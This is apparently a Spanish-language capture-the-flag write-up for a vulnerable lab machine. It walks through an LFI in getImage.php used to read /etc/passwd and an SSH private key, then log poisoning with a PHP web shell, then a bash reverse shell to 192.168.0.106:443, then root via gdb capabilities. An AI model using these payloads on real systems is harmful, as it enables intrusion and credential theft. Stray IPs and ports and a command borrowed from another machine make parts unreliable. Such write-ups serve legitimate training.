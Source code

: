 # Summary
- IP: 192.168.0.115
- Ports: 22,80,7080,8088
- OS: Linux (Debian Buster)
- Services & Applications:
	-  22 -> OpenSSH 7.9p1 Debian 10+deb10u2
	-  80 -> Apache httpd 2.4.38
	-  7080-> LiteSpeed
	-  8088 -> LiteSpeed

# Recon

- Escaneo básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.129.26 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```
$sudo nmap -p21,80,2222 -sCV 10.10.129.26 -oN targeted
```

- Escaneo básico de página web:

$nmap --script http-enum -p80 192.168.0.112 -oN webScan

- Analizamos el directorio cgi-data y encontramos un recuerso php, lo analizamos con wfuzz en búsqueda de algún parámetro que apunte a archivos del sistema (LFI) y encontramos que el parámetro "file" es vulnerable.

- Vemos el archivo /etc/passwd y enumeramos los usuarios que tienen una bash.


# Enumeración básica de LFI:

```
curl -s -X GET "http://192.168.0.115/cgi-data/getImage.php?file=/proc/net/tcp" | tail -n 4

curl -s -X GET "http://192.168.0.115/cgi-data/getImage.php?file=/proc/net/tcp" | tail -n 4  |  awk '{print $2}'
```

- Nos encontramos con puertos abiertos dentro de la máquina en hexadecimal (Últimos 4 caracteres de cada fila) transformarlos en decimal:

```
$echo $((16#VALOR HEXADECIMAL))
```

- Encontramos el puerto 3306 abierto (Mysql)

- Enumeramos procesos:

```
$curl -s -X GET "http://192.168.0.115/cgi-data/getImage.php?file=/proc/sched_debug"
```

- Enumeramos usuarios:

```
curl -s -X GET "http://192.168.0.115/cgi-data/getImage.php?file=/etc/passwd" | grep "sh$"
```

- Enumerar clave privada de usuario encontrado:

```
$curl -s -X GET "http://192.168.0.115/cgi-data/getImage.php?file=/home/durian/.ssh/id_rsa"
```

- Verificar que exista vulnerabilidad de log poisoning listando los recursos de apache, mail ssh:

```
$curl -s -X GET "http://192.168.0.115/cgi-data/getImage.php?file=/var/log/apache2/access.log"

$curl -s -X GET "http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios"

$curl -s -X GET "http://192.168.0.115/cgi-data/getImage.php?file=/var/log/auth.log"
```


- Al no obtener información relevante, tratamos de derivar el LFI a RCE con burpsuite:
- Abrimos burpsuite y nos vamos al recurso mediante el navegador para interceptar desde el proxy:

(536=proceso de apache visto en el recurso sched_debug)
http://192.168.0.115/cgi-data/getImage.php?file=/proc/536/cmdline 

- Interceptar peticion en burpsuite y mandarla al repeater (Ctrl+R):

- apuntar a:

http://192.168.0.115/cgi-data/getImage.php?file=/proc/self/fd/0

y mandarla al Intruder ( Ctrl+i ) para realizar ataque:

- Seleccionar ataque de tipo Snipper
- Seleccionar "clear" para limpiar
- Seleccionar el 0 y click en ADD.
- En la pestaña payloads seleccionar de tipo numérico (numbers)
- Indicar desde 1 hasta 30 de 1 en 1
- Click en start attack
- Examinar recursos:
- En los recursos con mayor número de respuestas pueden tratarse de logs, en este caso en la ruta "8" vemos demasiadas respuestas, por lo que podría ser el log de apache: (reiniciar máquina víctima para comprobar que se haya limpiado el supuesto log de apache)
- Seleccionar la petición de la ruta "8" y mandarla al repeater (Ctrl+r)
http://192.168.0.115/cgi-data/getImage.php?file=/proc/self/fd/8
- Repetimos la petición y vemos que si se trata del log de apache ya que registra las peticiones que se hacen a la IP de la máquina
- Ahora inyectamos código PHP en el user-agent ya que estamos apuntando a un archivo php (getImage) y el código lo debería interpretar:
- Hacemos una petición cualquier a la web y capturamos con Burpsuite:
- Modificamos en el repeater el user-agent por el código PHP y le damos send:

```
<?php system('whoami'); ?>
```

- Revisamos de nuevo el log apache y veremos el código PHP interpretado.
- Hacemos que por un parámetro "cmd" podamos ejecutar los comandos que queramos desde el link:

```
<?php system($_GET['cmd']); ?>
```

- Ahora desde el link (como ya existe un interrogante agregamos un ampersan) podemos ejecutar comandos:

view-source:http://192.168.0.116/cgi-data/getImage.php?file=/proc/self/fd/8&cmd=pwd

- Creamos una reverse shell básica:

view-source:http://192.168.0.116/cgi-data/getImage.php?file=/proc/self/fd/8&cmd=bash -c "bash -i >%26 /dev/tcp/192.168.0.106/443 0>%261"

- Accedemos, hacemos tratamiento de la tty y obtenemos la flag de usuario:

#  USER FLAG: 


# ESCALANDO PRIVILEGIOS:

- Con sudo -l vemos que tenemos permitido ejecutar dos binarios como root "shutdown" y "ping", buscamos en gtfobins pero no encontramos nada, se trata de una rabbit hole.
- Buscamos por capabilities:

```
getcap -r / 2>/dev/null
```

- Obtenemos "gdb" con capabilities, buscamos en gtfobins y si que hay forma de ganar acceso a una bash root:

If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

-   This requires that GDB is compiled with Python support.
    
    ```
    cp $(which gdb) .
    sudo setcap cap_setuid+ep gdb
    
    ./gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
    ```

- Ejecutamos el comando y accedemos como root.

#  ROOT FLAG: SunCSR_Team.af6d45da1f1181347b9e2139f23c6a5b
